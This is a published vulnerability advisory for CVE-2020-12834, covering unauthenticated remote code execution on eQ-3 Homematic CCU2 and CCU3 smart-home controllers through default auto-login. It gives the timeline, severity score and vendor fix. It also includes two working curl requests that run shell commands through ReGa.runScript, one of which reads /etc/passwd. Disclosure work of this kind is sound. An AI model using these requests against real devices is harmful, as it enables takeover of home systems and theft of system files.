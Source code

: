 ```yaml
---
layout: post
title:  "CVE-2020-12834 eQ-3 Homematic CCU2 through 2.51.6 and CCU3 through 3.51.6 allow Remote Code Execution in JSON API Method ReGa.runScript by unauthenticated attackers with access to the web interface due to default auto-login feature enabled during first-time setup (or factory reset)"
date:   2020-08-18 23:57:00 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2020-12834
- Author: psytester
- Title: eQ-3 Homematic CCU2 through 2.51.6 and CCU3 through 3.51.6 allow Remote Code Execution in JSON API Method ReGa.runScript by unauthenticated attackers with access to the web interface due to default auto-login feature enabled during first-time setup (or factory reset)
- Vulnerability Type: CWE-285: Improper Authorization
-	CVSSv3 Base Score: 8.3
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H
- Publishing Date: 14.05.2020
- Updated: 18.08.2020
- Vendor: eQ-3 AG	
- Product: Homematic CCU2 and CCU3
- Vendor contacted: 12.05.2020
- Vendor confirmation: 15.05.2020
- Vendor patch CCU2: N.A.
- Vendor patch CCU3: 3.53.26 since 18.08.2020
- Vendor Reference: [HMCCU-604] in changelog of CCU3 "Das Auto-Login ist nach der Erstinbetriebnahme der CCU deaktiviert."
- Affected Firmware version of CCU2: 2.51.6 and prior tested
- Affected Firmware version of CCU3: 3.51.6 and prior tested

# Background

From [vendor's website for CCU2](https://www.eq-3.com/products/homematic/detail/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

In the past, the vendor has never reacted or just very slow to any security report of me. That's why I publish this vulnerability after reporting to vendor without any waiting period.

# Issue Description

During the first time setup or after factory reset a password for WebUI user 'Admin' has to be set, but an auto-login function is set by default.<br>
According to the support this is to facilitate the initial setup.<br>
Switching off this auto-login is not well intuitive. Go to WebUI Home page > Settings > User management page. Click on below button "Log in automatically" next to buttons "Back" and "New".<br>
In "User selection" select from drop down menu "not selected" and finally click "OK".<br>
How many users are aware of this?

And only here you can see the the security alert:
```
Attention!
If automatic login is activated you will be logged-in to the system without entering your user name or password.
The selected user will be logged-in automatically without further validation. The system is no longer protected against external influences.
You can access other user accounts with click on "Login". Afterwards, please login with the user name and password again.
```

This attack vector is inspired by [CVE-2019-15850](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15850), where a manual login of the admin is required to use the JSON API method ReGa.runScript.<br>
Inside the runScript the undocumented `system.Exec()` call is used which executes plain unix commands.<br>
As a CCU is an ARM System using a Buildroot Busybox system all linux commands you may want to use are possible and you can code a complete shell script.

The following HTTP requests in Web Browser illustrates the attack vectors:

Open the WebUI to be auto-login `http://1.2.3.4/` will redirect to `http://1.2.3.4/pages/index.htm?sid=@7eY56glHVz@`<br>
Extract the session id `7eY56glHVz` for further usage in JSON API call as "_session_id_" value:

```
curl -X POST -H 'Content-Type: application/json; charset=utf-8' -i 'http://1.2.3.4/api/homematic.cgi' --data '{"version": "1.1", "method": "ReGa.runScript", "params": {"script": "string stdout;string stderr;system.Exec(\"sleep 4;cat /etc/passwd\", &stdout, &stderr);WriteLine(stdout);", "_session_id_": "7eY56glHVz"}}'
curl -X POST -H 'Content-Type: application/json; charset=utf-8' -i 'http://1.2.3.4/api/homematic.cgi' --data '{"version": "1.1", "method": "ReGa.runScript", "params": {"script": "string stdout;string stderr;system.Exec(\"/bin/touch /tmp/testfile\", &stdout, &stderr);WriteLine(stdout);", "_session_id_": "7eY56glHVz"}}'
```

# CVE

[CVE-2020-12834](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12834)

# CVSSv3 Base Score

CVSSv3 Base Score: 8.3

CVSSv3 Vector: CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H

# Firmware update since August 2020
On CCU3:<br>
With firmware 3.53.26 during the first time setup or after factory reset a password for WebUI user 'Admin' has to be set AND by now the auto-login function is switched off by default.<br>
Notice: Existing systems that only apply the update will still have the auto-login active, if this was not removed before.

/www/rega/pages/tabs/admin/adminFirstStart.htm
```
iseUser.setAutoLogin(0, 0);
```

On CCU2:<br>
not yet released

# Credit

[psytester](https://psytester.github.io), but I was inspired by [Joshua Lehr CVE-2019-15850](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15850)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2020 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
